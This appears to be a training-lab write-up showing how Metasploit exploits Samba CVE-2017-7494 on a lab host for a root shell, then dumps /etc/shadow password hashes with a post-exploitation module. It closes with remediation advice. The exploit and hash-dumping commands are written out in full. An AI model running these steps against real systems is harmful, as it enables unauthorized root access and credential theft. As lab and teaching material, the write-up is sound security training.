










# Dumping Hashes with Hashdump

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.232.248.3) — Unix, Samba<br>
**Objective:** Exploit the service and harvest credentials with post-exploitation modules.

## 1. Executive Summary

After exploiting **Samba** (`is_known_pipename`, CVE-2017-7494) for a root shell and
upgrading it to Meterpreter, we harvest the system's password hashes. `hashdump` isn't
available in the base session, so we use the `post/linux/gather/hashdump` module, which
unshadows `/etc/passwd`+`/etc/shadow` and dumps every account's SHA-512 hash.

## 2. Recon & Exploitation

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.232.248.3
```







```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.232.248.3
run        # root command shell
```



Upgrading to Meterpreter.

```bash
background
sessions -u 1
```





## 3. Dumping Hashes

`hashdump` isn't loaded in this session, so we run the post module against it.

```bash
background
use post/linux/gather/hashdump
set SESSION 2
run
```



To demonstrate, we change root's password and add a new user first.

```bash
passwd root
useradd example ; passwd example
```



Re-running `hashdump` shows the updated root hash and the new account's hash.

```
root:$6$1HcUvpt4$...:0:0:root:/root:/bin/bash
example:$6$TGpkzvoZ$...:1000:1000::/home/example:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/..._linux.hashes_...txt
```





## 4. Remediation Recommendations

1. **Patch Samba** (CVE-2017-7494) to prevent the initial RCE.
2. **Protect `/etc/shadow`** (root-only) and use strong, uniquely-salted SHA-512/yescrypt
   hashes with high cost factors.
3. **Apply least privilege** so a service compromise doesn't yield root and the shadow file.
4. **Monitor** for new account creation and password changes (auditd).
